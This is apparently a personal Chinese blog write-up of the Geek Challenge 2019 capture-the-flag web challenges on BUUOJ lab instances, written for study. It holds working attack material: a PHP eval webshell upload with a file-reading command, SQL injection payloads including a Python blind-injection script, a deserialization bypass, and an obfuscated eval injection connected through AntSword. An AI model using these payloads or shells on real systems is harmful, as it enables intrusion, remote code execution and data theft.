


+++
title = "极客大挑战 2019"
slug = "geek-challenge-2019"
description = "刷"
date = "2024-08-15T21:23:08"
lastmod = "2024-08-15T21:23:08"
image = ""
license = ""
categories = ["复现"]
tags = []
+++

# [极客大挑战 2019]Havefun

F12观察网页，发现源码

```html
 <!--
        $cat=$_GET['cat'];
        echo $cat;
        if($cat=='dog'){
            echo 'Syc{cat_cat_cat_cat}';
        }
        -->
```

```
url/?cat=dog
```

# [极客大挑战 2019]Http

查看源码发现

```html
·研究领域：渗透测试、逆向工程、密码学、IoT硬件安全、移动安全、安全编程、二进制漏洞挖掘利用等安全技术<br /><br />
                                ·小组的愿望：致力于成为国内实力强劲和拥有广泛影响力的安全研究团队，为广大的在校同学营造一个良好的信息安全技术<a style="border:none;cursor:default;" onclick="return false" href="Secret.php">氛围</a>！</p>
```

然后是一个关于`http头`的验证

```
Request:

GET /Secret.php HTTP/1.1
Host: node5.buuoj.cn:28447
Upgrade-Insecure-Requests: 1
User-Agent: Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
x-forwarded-for: 127.0.0.1
referer: https://Sycsecret.buuoj.cn
Connection: close
```

# [极客大挑战 2019]Knife

使用`antsword`直接链接即可`getshell`

```
url:http://3ed45150-c96f-4f1e-8b37-573c86bed4dd.node5.buuoj.cn:81/

密码:Syc
```

根目录下找到`flag`

# [极客大挑战 2019]Secret File

查看源码发现可疑路径

```
<a id="master" href="./Archive_room.php" style="background-color:#000000;height:70px;width:200px;color:black;left:44%;cursor:default;">Oh! You found me</a>
```

进入之后点击`secret`却回显"再回去看看吧",抓包发现路径与网页显示的完全不同

```
Resquest：

GET /action.php HTTP/1.1
Host: 37e94e61-511f-4efe-b860-9538442a7158.node5.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://37e94e61-511f-4efe-b860-9538442a7158.node5.buuoj.cn:81/Archive_room.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

```
Response:

HTTP/1.1 302 Found
Server: openresty
Date: Fri, 09 Aug 2024 01:13:46 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.3.11
Location: end.php
Cache-Control: no-cache
Content-Length: 63

<!DOCTYPE html>

<html>
<!--
   secr3t.php        
-->
</html>
```

访问`/secr3t.php`

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
    
//strstr是一个查找函数来匹配当中的字符串
```

这里我的本意是想用vps打入🐎的，但是tp过滤了(没看到)

那么就还是用`filter`协议来吧

```
http://37e94e61-511f-4efe-b860-9538442a7158.node5.buuoj.cn:81/secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

```html
<!DOCTYPE html>

<html>

    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{151841a9-842f-4209-939d-9d0ddb67333b}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>

</html>
```

# [极客大挑战 2019]Upload

一个基础的上传文件的题目,不需要`htaccess`，也不需要`.user.ini`

```
Response；

POST /upload_file.php HTTP/1.1
Host: fcaf4d82-fcb0-4f57-8cda-2dae6d7fc748.node5.buuoj.cn:81
Content-Length: 339
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://fcaf4d82-fcb0-4f57-8cda-2dae6d7fc748.node5.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUF2DQzBjlz8AVQ4A
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://fcaf4d82-fcb0-4f57-8cda-2dae6d7fc748.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryUF2DQzBjlz8AVQ4A
Content-Disposition: form-data; name="file"; filename="1.phtml"
Content-Type: image/jpeg

GIF89a
<script language='php'>@eval($_POST[1]);</script>

------WebKitFormBoundaryUF2DQzBjlz8AVQ4A
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryUF2DQzBjlz8AVQ4A--
```

但是过滤的东西还是挺多的，🐎的写法还是得注意

```url
http://fcaf4d82-fcb0-4f57-8cda-2dae6d7fc748.node5.buuoj.cn:81/upload/1.phtml

POST:
1=system("tac /f*");
```

# [极客大挑战 2019]EasySQL

```
username='||1=1#

password=1
```

还没开始就已经结束了

# [极客大挑战 2019]LoveSQL

```
username='||1=1#

password=1
```

拿到`admin`的密码

`a3277841060c5ff3148bb5b63a1fb432`

```
-1'order by 4#

-1'order by 3#
确定列数为3
```

```sql
-1'union select 1,2,3#

-1'union select 1,(select group_concat(table_name)from information_schema.tables where table_schema=database()),3#

Hello geekuser,l0ve1ysq1！
Your password is '3

-1'union select 1,(select group_concat(column_name)from information_schema.columns where table_name='l0ve1ysq1'),3#

Hello id,username,password！

-1'union select 1,(select group_concat(password) from l0ve1ysq1),3#
```

然后得到的`flag`给了一个重影直接查看源码得到`flag`

# [极客大挑战 2019]BabySQL

发现是把`or`过滤了这里测列数，半天绕不过去

```sql
-1'ununionion seselectlect 1,2,3#

-1'ununionion seselectlect 1,(seselectlect group_concat(table_name)frfromom infoorrmation_schema.tables whwhereere table_schema=database()),3#

Hello b4bsql,geekuser！
Your password is '3

-1'ununionion seselectlect 1,(seselectlect group_concat(column_name)frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'),3#

Hello id,username,password！

-1'ununionion seselectlect 1,(seselectlect group_concat(passwoorrd) frfromom b4bsql),3#
```

过滤的东西还是挺多的，但是双写就可以了！，慢慢绕吧

# [极客大挑战 2019]FinalSQL

这个就有点意思了

进入网页点击数字之后观察`url`发现参数，这里挨个试，也可以`fuzz`

测出`^`符号可以使用

```php
<?php
echo 1^0;
echo "<br>";
echo 1^1;
echo "<br>";
echo 0^0;
echo "<br>";
echo 0^1;
?>
```

那么有payload就尝试盲注吧

当payload正确时，回显为"ERROR!!!"

```
?id=1^(length(database())>1)
```

鉴于是bool盲注所以还是多快的

```python
import requests

flag = ""
i = 0

while True:
    head = 127
    tail = 32
    i += 1

    while tail < head:
        mid = (head + tail) // 2
        url = f"http://4c65e919-07cb-42ab-ab7f-1e53bc0f2ccb.node5.buuoj.cn:81/search.php?id=1^(ascii(substr((Select(group_concat(schema_name))from(information_schema.schemata)),{i},1))>{mid})--+"
        # url = f"http://4c65e919-07cb-42ab-ab7f-1e53bc0f2ccb.node5.buuoj.cn:81/search.php?id=1^(ascii(substr((Select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek')),{i},1))>{mid})--+"
        # url = f"http://4c65e919-07cb-42ab-ab7f-1e53bc0f2ccb.node5.buuoj.cn:81/search.php?id=1^(ascii(substr((Select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),{i},1))>{mid})--+"
        # url = f"http://4c65e919-07cb-42ab-ab7f-1e53bc0f2ccb.node5.buuoj.cn:81/search.php?id=1^(ascii(substr((Select(group_concat(password))from(F1naI1y)),{i},1))>{mid})--+"

        r = requests.get(url=url)
        if 'ERROR' in r.text:
            tail = mid + 1
        else:
            head = mid

    if tail != 32:
        flag += chr(tail)

    else:
        break
    print(flag)

```

# [极客大挑战 2019]HardSQL

上次的双写已经算是比较复杂了，这里的话我估计就只有报错注入和时间盲注能通所以先试试报错注入

经过测试，注入点也变为了`password`

而且空格也是需要绕过的

```sql
-1'or(updatexml(1,concat(0x7e,(select(database())),0x7e),3))#
XPATH syntax error: '~geek~'

-1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),0x7e),3))#
XPATH syntax error: '~H4rDsq1~'
//等于号也不能用了?

-1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),3))#
XPATH syntax error: '~id,username,password~'

-1'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e),3))#
XPATH syntax error: '~flag{613f377f-a834-4c37-b59a-e2'

-1'or(updatexml(1,concat(0x7e,(select(right(password,14))from(H4rDsq1)),0x7e),3))#
XPATH syntax error: '~-e287ff027d6a}~'
```

# [极客大挑战 2019]BuyFlag

```html
<ul>
											<li><a href="index.php">Home</a></li>
											<li><a href="pay.php">PayFlag</a></li>
										</ul>
```


进入查看

```
Flag need your 100000000 money

attention:

If you want to buy the FLAG:
You must be a student from CUIT!!!
You must be answer the correct password!!!
```

```php
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

得到密码404但是不能输出全数字绕过`is_numeric`

```php
<?php
$a='0x194';

if(is_numeric($a)){
  echo 1;
}else {
  echo 0;
}
?>
```

测试了16进制是可以绕过的但是为啥不行了

而且这道题比较简单我直接随便输了一个数组就可以得到`flag`

但是注意观察`cookie`，里面还有个验证

```
Resquest:

POST /pay.php HTTP/1.1
Host: 8ad50753-d19d-492a-8a30-35c99e31f766.node5.buuoj.cn:81
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://8ad50753-d19d-492a-8a30-35c99e31f766.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://8ad50753-d19d-492a-8a30-35c99e31f766.node5.buuoj.cn:81/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=1
Connection: close

password=404e&money[]=1
```

```
Resquest:

POST /pay.php HTTP/1.1
Host: 8ad50753-d19d-492a-8a30-35c99e31f766.node5.buuoj.cn:81
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://8ad50753-d19d-492a-8a30-35c99e31f766.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://8ad50753-d19d-492a-8a30-35c99e31f766.node5.buuoj.cn:81/pay.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=1
Connection: close

password=404e&money=1e10
```

# [极客大挑战 2019]PHP

有备份网站的习惯十八，直接扫后台访问`www.zip`拿到源码

index.php

```php
<?php

  include 'class.php';

  $select = $_GET['select'];

  $res=**unserialize**(@$select);

  ?>
```

class.php

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

一个很简单的反序列化链子都没有

```php
<?php
class Name{
    private $username='admin';
    private $password='100';

}
echo serialize(new Name());
?>
    
//O:4:"Name":2:{s:8:"username";s:5:"admin";s:8:"password";s:3:"100";}
```

但是要手动添加不可见字符

并且观察我们要绕过`__wakeup`

在反序列化时，当前属性个数大于实际属性个数时，就会跳过`__wakeup()`，去执行`__destruct`

```
url/?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";s:3:"100";}
```

打通

# [极客大挑战 2019]RCE ME

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

这里很明显是一个RCE，而且绕过的还比较多，我们使用异或绕过

由于限制字符长度，异或肯定是不够长的，我们使用取反

```php
<?php
$c='phpinfo()';
$d=urlencode(~$c);
$e=~($d);
// if(preg_match("/[A-Za-z0-9]+/",$e)){
//     echo 0;
// }else {
//     echo 1;
// }
echo $d;
?>
```

```
url/?code=(~%8F%97%8F%96%91%99%90)();
```

```
disable_functions:

pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl
```

这么多都不能用了，我们想办法代入`antsword`处理

并且得到了版本

`PHP Version 7.0.33`在7.2之前，构造`assert(eval($_POST[a]));`

```php
<?php 
$a='assert';
$b=urlencode(~$a);
echo $b;
echo "\n";
$c='eval($_POST[a])';
$d=urlencode(~$c);
echo $d;

?>
```

```
url/?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6);
```

`antsword`链接

```
url:http://8d8473f5-bc1d-4ebe-a275-b04f10e29fef.node5.buuoj.cn:81/?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6);

password:a
```

发现根目录有个可执行文件和假的`flag`

进入虚拟终端发现没有权限

这里使用插件，已知php版本我们使用这个插件选择PHP7的那两种都可以`getshell`





`/readflag`执行这个程序即可得到`flag`

